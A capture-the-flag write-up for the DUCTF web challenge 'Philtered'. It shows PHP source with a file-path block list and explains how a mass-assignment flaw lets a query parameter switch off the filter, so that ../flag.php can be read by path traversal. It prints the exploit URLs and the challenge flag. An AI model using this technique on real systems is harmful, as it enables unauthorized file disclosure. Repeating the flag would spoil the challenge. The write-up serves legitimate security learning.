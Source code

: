```yaml
---
layout: writeup
title: Philtered
tags: WebX
---
```


## Description

Dear Raahguu,

Can you phigure this one out?

Regards,
sidd.sh

And then you also got the backend code for the website

## Solution

The Descrption didn't give us much to go off, so we started off by looking through the source code. The only important part you need to know is the index.php file

```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];

    public function __construct() {
        $this->config = new Config();
    }

    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader();
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

Other then thhat you need to know that at the same directory level as `index.php` existed `flag.php` which contained the code:

```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```

As the `flag.php` code just sets a variable server side, navigating to it directly returns nothing, so we instead need to find some way to read the file or to execute it and then later print out the `$flag` variable

Luckily in index.php the get request specifies what file to load the data from in the `load` method.

```php
public function load() {
	return file_get_contents($this->config->data_folder . $this->config->path);
}
```

The only problem with just reading out the `flag.php` file, is that the request is filtered and so the strings `php, :, .., /, \\, filter, flag, etc` are not allowed as long as `allow_unsafe` is turned false.

An example of how this should be used is:

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?config[path]=our-values.txt`

![picture of the website showing how we caused the our-values.txt file to be read and loaded onto the page due to the command](/assets/images/writeups_images/Philtered/1.png)

This shows how due to the three lines in the php:

```php
$loader = new FileLoader();
$loader->assign_props($_GET);
...
$content .= "<p>" . $loader->load() . "</p>";
```

we can insert text from whatever file we want on the server.

Trying to go straight for the flag we get

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?config[path]=../flag.php`

![picture of the website showing how instead of reading out flag.php, we got the text `You've just been philtered!`](/assets/images/writeups_images/Philtered/2.png)

This just has the text `You've just been philtered` Note: that text is the contents of the `data/philtered.txt`

This file has been read instead of the flag because we tripped the filter code:

```php
// These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];

	...

    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;
                }
            }
        }
        return false;
    }
```

So we need to get around the filter before we can even load the `flag.php` file. Luckily, the filter checks if the FileLoader instance calling it has the attribute `allow_unsage` set to false before filtering. Luckily though, due to how the `assign_props` method that we used to allows us to set `config[path]` we can also set `allow_unsafe`

So by just adding `allow_unsafe=true` into the query, we can now go to whatever file we want, so lets do that. Warning, due to the interprative nature of how `assign_props` works, you need to define `allow_unsafe` before you set the path, or you will still be filtered.

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?allow_unsafe=true&config[path]=../flag.php`


![picture of the website showing their being nothing in the area where we control the content](/assets/images/writeups_images/Philtered/3.png)


The website should be loading in `flag.php` yet nothing is there. This is becuase the `flag.php` file is being loaded in, but as it isn't actual html code or normal text, it is instead being loaded in as a comment, so by viewing the html code you can see

```html
...
<h2>Welcome to Philtered</h2>
<p>
	<!--?php $flag = 'DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}'; ?-->
</p>
<h3>About Us</h3>
...
```

And there the flag is `DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}`

